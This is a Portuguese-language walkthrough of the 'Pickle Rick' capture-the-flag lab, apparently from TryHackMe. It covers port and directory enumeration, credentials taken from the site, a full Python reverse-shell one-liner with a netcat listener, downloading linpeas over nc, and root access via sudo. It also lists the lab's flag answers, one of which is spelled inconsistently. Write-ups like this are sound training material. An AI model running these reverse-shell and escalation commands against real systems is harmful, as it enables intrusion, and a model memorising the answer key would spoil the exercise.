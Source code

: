 # Lab: Pickle Rick (Easy Mode)

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte:** http://10.10.89.179/ -> **Username:** R1ckRul3s

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Diretórios e Arquivos Encontrados:**
```
/assets/
/robots.txt -> Wubbalubbadubdub
/login.php -> Username: R1ckRul3s , Password: Wubbalubbadubdub
/portal.php -> (INFO: Após Login!) Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)
```
**Flags Identificadas:**
```
Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair (INFO: FLAG!)
clue.txt: Look around the file system for the other ingredient.
```
**Comandos Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
```
rabbit hole
```

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```
**Reverse Shell (Pentestmonkey Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Erros Possíveis:**
```
/bin/sh: 0: can't access tty; job control turned off
```
**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```
**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
**Identificação:**
```
(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)
```
**Escalação para Root:**
```bash
sudo bash
```
**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```
**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
